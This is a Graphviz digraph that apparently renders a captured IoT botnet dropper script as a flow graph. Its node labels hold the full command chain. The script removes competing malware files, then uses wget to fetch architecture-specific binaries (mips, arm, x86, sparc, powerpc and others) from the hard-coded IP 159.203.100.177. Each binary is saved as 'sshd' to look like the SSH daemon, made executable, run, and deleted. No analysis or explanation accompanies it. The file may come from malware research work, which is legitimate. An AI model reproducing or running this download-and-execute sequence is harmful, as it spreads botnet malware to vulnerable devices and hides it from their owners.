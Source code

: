 digraph {
0 [label="ulimit -n 1024 "];
0 -> 0
2 [label="rm -fr ami* "];
2 -> 2
4 [label="rm -fr gtop.sh gtopb1.sh gtopb2.sh gtopb3.sh gtopb4.sh ftp.sh ftp0.sh ftpb1.sh ftpb2.sh ftpb3.sh ftpb4.sh tftpb1.sh tftpb2.sh ttftp1b1.sh ttftpb2.sh tttftp1b1.sh tttftp7.sh ftpm0.sh "];
4 -> 4
6 [label="rm -fr jackmy* poundmy* rapemy* smokemy* kekmy* breakmy* "];
6 -> 6
484 [label="cd /tmp "];
484 -> 484
486 [label="cd /var/system "];
486 -> 488 [label="||,"];
488 [label="cd /mnt "];
488 -> 490 [label="||,"];
490 [label="cd /lib "];
490 -> 492 [label="||,"];
492 [label="cd /etc "];
492 -> 494 [label="||,"];
494 [label="cd /proc "];
494 -> 496 [label="||,"];
496 [label="cd /usr "];
496 -> 22 [label="||,"];
22 [label="wget http://159.203.100.177/amimips "];
22 -> 24 [label=";,"];
24 [label="cat amimips sshd "];
24 -> 502 [label=";,"];
502 [label="sshd "];
502 -> 502
504 [label="chmod 777 sshd "];
504 -> 506 [label=";,"];
506 [label="chmod +x sshd "];
506 -> 508 [label="||,"];
508 [label="./sshd "];
508 -> 509 [label=";,"];
509 [label="rm -rf sshd "];
509 -> 484 [label=";,"];
484 [label="cd /tmp "];
484 -> 484
486 [label="cd /var/system "];
486 -> 488 [label="||,"];
488 [label="cd /mnt "];
488 -> 490 [label="||,"];
490 [label="cd /lib "];
490 -> 492 [label="||,"];
492 [label="cd /etc "];
492 -> 494 [label="||,"];
494 [label="cd /proc "];
494 -> 496 [label="||,"];
496 [label="cd /usr "];
496 -> 50 [label="||,"];
50 [label="wget http://159.203.100.177/amimips64 "];
50 -> 52 [label=";,"];
52 [label="cat amimips64 sshd "];
52 -> 502 [label=";,"];
502 [label="sshd "];
502 -> 502
504 [label="chmod 777 sshd "];
504 -> 506 [label=";,"];
506 [label="chmod +x sshd "];
506 -> 508 [label="||,"];
508 [label="./sshd "];
508 -> 509 [label=";,"];
509 [label="rm -rf sshd "];
509 -> 484 [label=";,"];
484 [label="cd /tmp "];
484 -> 484
486 [label="cd /var/system "];
486 -> 488 [label="||,"];
488 [label="cd /mnt "];
488 -> 490 [label="||,"];
490 [label="cd /lib "];
490 -> 492 [label="||,"];
492 [label="cd /etc "];
492 -> 494 [label="||,"];
494 [label="cd /proc "];
494 -> 496 [label="||,"];
496 [label="cd /usr "];
496 -> 78 [label="||,"];
78 [label="wget http://159.203.100.177/amimipsel "];
78 -> 80 [label=";,"];
80 [label="cat amimipsel sshd "];
80 -> 502 [label=";,"];
502 [label="sshd "];
502 -> 502
504 [label="chmod 777 sshd "];
504 -> 506 [label=";,"];
506 [label="chmod +x sshd "];
506 -> 508 [label="||,"];
508 [label="./sshd "];
508 -> 509 [label=";,"];
509 [label="rm -rf sshd "];
509 -> 484 [label=";,"];
484 [label="cd /tmp "];
484 -> 484
486 [label="cd /var/system "];
486 -> 488 [label="||,"];
488 [label="cd /mnt "];
488 -> 490 [label="||,"];
490 [label="cd /lib "];
490 -> 492 [label="||,"];
492 [label="cd /etc "];
492 -> 494 [label="||,"];
494 [label="cd /proc "];
494 -> 496 [label="||,"];
496 [label="cd /usr "];
496 -> 106 [label="||,"];
106 [label="wget http://159.203.100.177/amish2eb "];
106 -> 108 [label=";,"];
108 [label="cat amish2eb sshd "];
108 -> 502 [label=";,"];
502 [label="sshd "];
502 -> 502
504 [label="chmod 777 sshd "];
504 -> 506 [label=";,"];
506 [label="chmod +x sshd "];
506 -> 508 [label="||,"];
508 [label="./sshd "];
508 -> 509 [label=";,"];
509 [label="rm -rf sshd "];
509 -> 484 [label=";,"];
484 [label="cd /tmp "];
484 -> 484
486 [label="cd /var/system "];
486 -> 488 [label="||,"];
488 [label="cd /mnt "];
488 -> 490 [label="||,"];
490 [label="cd /lib "];
490 -> 492 [label="||,"];
492 [label="cd /etc "];
492 -> 494 [label="||,"];
494 [label="cd /proc "];
494 -> 496 [label="||,"];
496 [label="cd /usr "];
496 -> 134 [label="||,"];
134 [label="wget http://159.203.100.177/amish2elf "];
134 -> 136 [label=";,"];
136 [label="cat amish2elf sshd "];
136 -> 502 [label=";,"];
502 [label="sshd "];
502 -> 502
504 [label="chmod 777 sshd "];
504 -> 506 [label=";,"];
506 [label="chmod +x sshd "];
506 -> 508 [label="||,"];
508 [label="./sshd "];
508 -> 509 [label=";,"];
509 [label="rm -rf sshd "];
509 -> 484 [label=";,"];
484 [label="cd /tmp "];
484 -> 484
486 [label="cd /var/system "];
486 -> 488 [label="||,"];
488 [label="cd /mnt "];
488 -> 490 [label="||,"];
490 [label="cd /lib "];
490 -> 492 [label="||,"];
492 [label="cd /etc "];
492 -> 494 [label="||,"];
494 [label="cd /proc "];
494 -> 496 [label="||,"];
496 [label="cd /usr "];
496 -> 162 [label="||,"];
162 [label="wget http://159.203.100.177/amish4 "];
162 -> 164 [label=";,"];
164 [label="cat amish4 sshd "];
164 -> 502 [label=";,"];
502 [label="sshd "];
502 -> 502
504 [label="chmod 777 sshd "];
504 -> 506 [label=";,"];
506 [label="chmod +x sshd "];
506 -> 508 [label="||,"];
508 [label="./sshd "];
508 -> 509 [label=";,"];
509 [label="rm -rf sshd "];
509 -> 484 [label=";,"];
484 [label="cd /tmp "];
484 -> 484
486 [label="cd /var/system "];
486 -> 488 [label="||,"];
488 [label="cd /mnt "];
488 -> 490 [label="||,"];
490 [label="cd /lib "];
490 -> 492 [label="||,"];
492 [label="cd /etc "];
492 -> 494 [label="||,"];
494 [label="cd /proc "];
494 -> 496 [label="||,"];
496 [label="cd /usr "];
496 -> 190 [label="||,"];
190 [label="wget http://159.203.100.177/amix86 "];
190 -> 192 [label=";,"];
192 [label="cat amix86 sshd "];
192 -> 502 [label=";,"];
502 [label="sshd "];
502 -> 502
504 [label="chmod 777 sshd "];
504 -> 506 [label=";,"];
506 [label="chmod +x sshd "];
506 -> 508 [label="||,"];
508 [label="./sshd "];
508 -> 509 [label=";,"];
509 [label="rm -rf sshd "];
509 -> 484 [label=";,"];
484 [label="cd /tmp "];
484 -> 484
486 [label="cd /var/system "];
486 -> 488 [label="||,"];
488 [label="cd /mnt "];
488 -> 490 [label="||,"];
490 [label="cd /lib "];
490 -> 492 [label="||,"];
492 [label="cd /etc "];
492 -> 494 [label="||,"];
494 [label="cd /proc "];
494 -> 496 [label="||,"];
496 [label="cd /usr "];
496 -> 218 [label="||,"];
218 [label="wget http://159.203.100.177/amii486 "];
218 -> 220 [label=";,"];
220 [label="cat amii486 sshd "];
220 -> 502 [label=";,"];
502 [label="sshd "];
502 -> 502
504 [label="chmod 777 sshd "];
504 -> 506 [label=";,"];
506 [label="chmod +x sshd "];
506 -> 508 [label="||,"];
508 [label="./sshd "];
508 -> 509 [label=";,"];
509 [label="rm -rf sshd "];
509 -> 484 [label=";,"];
484 [label="cd /tmp "];
484 -> 484
486 [label="cd /var/system "];
486 -> 488 [label="||,"];
488 [label="cd /mnt "];
488 -> 490 [label="||,"];
490 [label="cd /lib "];
490 -> 492 [label="||,"];
492 [label="cd /etc "];
492 -> 494 [label="||,"];
494 [label="cd /proc "];
494 -> 496 [label="||,"];
496 [label="cd /usr "];
496 -> 246 [label="||,"];
246 [label="wget http://159.203.100.177/amii586 "];
246 -> 248 [label=";,"];
248 [label="cat amii586 sshd "];
248 -> 502 [label=";,"];
502 [label="sshd "];
502 -> 502
504 [label="chmod 777 sshd "];
504 -> 506 [label=";,"];
506 [label="chmod +x sshd "];
506 -> 508 [label="||,"];
508 [label="./sshd "];
508 -> 509 [label=";,"];
509 [label="rm -rf sshd "];
509 -> 484 [label=";,"];
484 [label="cd /tmp "];
484 -> 484
486 [label="cd /var/system "];
486 -> 488 [label="||,"];
488 [label="cd /mnt "];
488 -> 490 [label="||,"];
490 [label="cd /lib "];
490 -> 492 [label="||,"];
492 [label="cd /etc "];
492 -> 494 [label="||,"];
494 [label="cd /proc "];
494 -> 496 [label="||,"];
496 [label="cd /usr "];
496 -> 274 [label="||,"];
274 [label="wget http://159.203.100.177/amii686 "];
274 -> 276 [label=";,"];
276 [label="cat amii686 sshd "];
276 -> 502 [label=";,"];
502 [label="sshd "];
502 -> 502
504 [label="chmod 777 sshd "];
504 -> 506 [label=";,"];
506 [label="chmod +x sshd "];
506 -> 508 [label="||,"];
508 [label="./sshd "];
508 -> 509 [label=";,"];
509 [label="rm -rf sshd "];
509 -> 484 [label=";,"];
484 [label="cd /tmp "];
484 -> 484
486 [label="cd /var/system "];
486 -> 488 [label="||,"];
488 [label="cd /mnt "];
488 -> 490 [label="||,"];
490 [label="cd /lib "];
490 -> 492 [label="||,"];
492 [label="cd /etc "];
492 -> 494 [label="||,"];
494 [label="cd /proc "];
494 -> 496 [label="||,"];
496 [label="cd /usr "];
496 -> 302 [label="||,"];
302 [label="wget http://159.203.100.177/amipowerpc "];
302 -> 304 [label=";,"];
304 [label="cat amipowerpc sshd "];
304 -> 502 [label=";,"];
502 [label="sshd "];
502 -> 502
504 [label="chmod 777 sshd "];
504 -> 506 [label=";,"];
506 [label="chmod +x sshd "];
506 -> 508 [label="||,"];
508 [label="./sshd "];
508 -> 509 [label=";,"];
509 [label="rm -rf sshd "];
509 -> 484 [label=";,"];
484 [label="cd /tmp "];
484 -> 484
486 [label="cd /var/system "];
486 -> 488 [label="||,"];
488 [label="cd /mnt "];
488 -> 490 [label="||,"];
490 [label="cd /lib "];
490 -> 492 [label="||,"];
492 [label="cd /etc "];
492 -> 494 [label="||,"];
494 [label="cd /proc "];
494 -> 496 [label="||,"];
496 [label="cd /usr "];
496 -> 330 [label="||,"];
330 [label="wget http://159.203.100.177/amipowerpc440fp "];
330 -> 332 [label=";,"];
332 [label="cat amipowerpc440fp sshd "];
332 -> 502 [label=";,"];
502 [label="sshd "];
502 -> 502
504 [label="chmod 777 sshd "];
504 -> 506 [label=";,"];
506 [label="chmod +x sshd "];
506 -> 508 [label="||,"];
508 [label="./sshd "];
508 -> 509 [label=";,"];
509 [label="rm -rf sshd "];
509 -> 484 [label=";,"];
484 [label="cd /tmp "];
484 -> 484
486 [label="cd /var/system "];
486 -> 488 [label="||,"];
488 [label="cd /mnt "];
488 -> 490 [label="||,"];
490 [label="cd /lib "];
490 -> 492 [label="||,"];
492 [label="cd /etc "];
492 -> 494 [label="||,"];
494 [label="cd /proc "];
494 -> 496 [label="||,"];
496 [label="cd /usr "];
496 -> 358 [label="||,"];
358 [label="wget http://159.203.100.177/amim86k "];
358 -> 360 [label=";,"];
360 [label="cat amim86k sshd "];
360 -> 502 [label=";,"];
502 [label="sshd "];
502 -> 502
504 [label="chmod 777 sshd "];
504 -> 506 [label=";,"];
506 [label="chmod +x sshd "];
506 -> 508 [label="||,"];
508 [label="./sshd "];
508 -> 509 [label=";,"];
509 [label="rm -rf sshd "];
509 -> 484 [label=";,"];
484 [label="cd /tmp "];
484 -> 484
486 [label="cd /var/system "];
486 -> 488 [label="||,"];
488 [label="cd /mnt "];
488 -> 490 [label="||,"];
490 [label="cd /lib "];
490 -> 492 [label="||,"];
492 [label="cd /etc "];
492 -> 494 [label="||,"];
494 [label="cd /proc "];
494 -> 496 [label="||,"];
496 [label="cd /usr "];
496 -> 386 [label="||,"];
386 [label="wget http://159.203.100.177/amisparc "];
386 -> 388 [label=";,"];
388 [label="cat amisparc sshd "];
388 -> 502 [label=";,"];
502 [label="sshd "];
502 -> 502
504 [label="chmod 777 sshd "];
504 -> 506 [label=";,"];
506 [label="chmod +x sshd "];
506 -> 508 [label="||,"];
508 [label="./sshd "];
508 -> 509 [label=";,"];
509 [label="rm -rf sshd "];
509 -> 484 [label=";,"];
484 [label="cd /tmp "];
484 -> 484
486 [label="cd /var/system "];
486 -> 488 [label="||,"];
488 [label="cd /mnt "];
488 -> 490 [label="||,"];
490 [label="cd /lib "];
490 -> 492 [label="||,"];
492 [label="cd /etc "];
492 -> 494 [label="||,"];
494 [label="cd /proc "];
494 -> 496 [label="||,"];
496 [label="cd /usr "];
496 -> 414 [label="||,"];
414 [label="wget http://159.203.100.177/amiarmv4 "];
414 -> 416 [label=";,"];
416 [label="cat amiarmv4 sshd "];
416 -> 502 [label=";,"];
502 [label="sshd "];
502 -> 502
504 [label="chmod 777 sshd "];
504 -> 506 [label=";,"];
506 [label="chmod +x sshd "];
506 -> 508 [label="||,"];
508 [label="./sshd "];
508 -> 509 [label=";,"];
509 [label="rm -rf sshd "];
509 -> 484 [label=";,"];
484 [label="cd /tmp "];
484 -> 484
486 [label="cd /var/system "];
486 -> 488 [label="||,"];
488 [label="cd /mnt "];
488 -> 490 [label="||,"];
490 [label="cd /lib "];
490 -> 492 [label="||,"];
492 [label="cd /etc "];
492 -> 494 [label="||,"];
494 [label="cd /proc "];
494 -> 496 [label="||,"];
496 [label="cd /usr "];
496 -> 442 [label="||,"];
442 [label="wget http://159.203.100.177/amiarmv4tl "];
442 -> 444 [label=";,"];
444 [label="cat amiarmv4tl sshd "];
444 -> 502 [label=";,"];
502 [label="sshd "];
502 -> 502
504 [label="chmod 777 sshd "];
504 -> 506 [label=";,"];
506 [label="chmod +x sshd "];
506 -> 508 [label="||,"];
508 [label="./sshd "];
508 -> 509 [label=";,"];
509 [label="rm -rf sshd "];
509 -> 484 [label=";,"];
484 [label="cd /tmp "];
484 -> 484
486 [label="cd /var/system "];
486 -> 488 [label="||,"];
488 [label="cd /mnt "];
488 -> 490 [label="||,"];
490 [label="cd /lib "];
490 -> 492 [label="||,"];
492 [label="cd /etc "];
492 -> 494 [label="||,"];
494 [label="cd /proc "];
494 -> 496 [label="||,"];
496 [label="cd /usr "];
496 -> 470 [label="||,"];
470 [label="wget http://159.203.100.177/amiarmv5 "];
470 -> 472 [label=";,"];
472 [label="cat amiarmv5 sshd "];
472 -> 502 [label=";,"];
502 [label="sshd "];
502 -> 502
504 [label="chmod 777 sshd "];
504 -> 506 [label=";,"];
506 [label="chmod +x sshd "];
506 -> 508 [label="||,"];
508 [label="./sshd "];
508 -> 509 [label=";,"];
509 [label="rm -rf sshd "];
509 -> 484 [label=";,"];
484 [label="cd /tmp "];
484 -> 484
486 [label="cd /var/system "];
486 -> 488 [label="||,"];
488 [label="cd /mnt "];
488 -> 490 [label="||,"];
490 [label="cd /lib "];
490 -> 492 [label="||,"];
492 [label="cd /etc "];
492 -> 494 [label="||,"];
494 [label="cd /proc "];
494 -> 496 [label="||,"];
496 [label="cd /usr "];
496 -> 498 [label="||,"];
498 [label="wget http://159.203.100.177/amiarmv6 "];
498 -> 500 [label=";,"];
500 [label="cat amiarmv6 sshd "];
500 -> 502 [label=";,"];
502 [label="sshd "];
502 -> 502
504 [label="chmod 777 sshd "];
504 -> 506 [label=";,"];
506 [label="chmod +x sshd "];
506 -> 508 [label="||,"];
508 [label="./sshd "];
508 -> 509 [label=";,"];
}
